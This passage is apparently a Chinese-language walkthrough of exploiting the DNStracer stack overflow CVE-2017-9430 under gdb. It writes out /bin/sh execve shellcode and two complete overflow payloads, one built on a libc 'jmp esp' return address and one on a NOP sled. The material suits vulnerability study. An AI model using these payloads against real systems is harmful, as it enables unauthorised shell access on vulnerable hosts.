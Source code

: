 ![cve-2017-9430-22.png](https://i.loli.net/2020/08/11/jWd5yZ7cYUaXxER.png)

由于上面删除了断点，并且程序中断，重新用gdb加载DNStracer设置断点并运行程序：

![cve-2017-9430-23.png](https://i.loli.net/2020/08/11/apqKomMl8W6VUZc.png)

然后使用vmmap查看使用的库等

![cve-2017-9430-24.png](https://i.loli.net/2020/08/11/sEOiUTzMpma1uWk.png)

利用jmpcall查看一下esp在libc-2.15.so的地址，随便找一个地址，例如第一个0xb7e22a55，因为涉及大端小端问题，把地址改写成’\\x55\\x2a\\xe2\\xb7’

![cve-2017-9430-25.png](https://i.loli.net/2020/08/11/tgaNlJIQ8fxRdF4.png)

然后设置参数，把esp的地址加到args参数里面，执行

![cve-2017-9430-26.png](https://i.loli.net/2020/08/11/sT3MVdF9JApnk2e.png)

继续执行，发现程序会中断到0xbfffef31，查看esp验证一下

![cve-2017-9430-27.png](https://i.loli.net/2020/08/11/t3cGuVEpYxF5Wod.png)

![cve-2017-9430-28.png](https://i.loli.net/2020/08/11/Ly4Uidp8DoaNJCj.png)

因为main的返回命令是ret，自己没有处理调用者传参的堆栈平衡，所以本次没有用于占位的0xcc字节。

然后编写shellcode，这里利用参考文章中给出的：
```bash
shellcode =
"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"
```
所以payload：
```bash
python -c 'print "A"\*1041 + "\\x55\\x2a\\xe2\\xb7" +
"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"'
```
运行结果：

![cve-2017-9430-29.png](https://i.loli.net/2020/08/11/zb173qhZ4dn9RvA.png)

上面运行出错，这是由于payload写错导致。

因为shellcode长度为25字节，改用覆盖ebp的方式，因此前面用nop填充：

![cve-2017-9430-30.png](https://i.loli.net/2020/08/11/B5pgjviEwCI4mYx.png)
```bash
set args \$(python -c 'print
"\\x90"\*1016+"\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x89\\xe2\\x53\\x89\\xe1\\xb0\\x0b\\xcd\\x80"+"\\x1b\\xeb\\xff\\xbf"')
```
![cve-2017-9430-31.png](https://i.loli.net/2020/08/11/9t6f3RVhzvaICyJ.png)
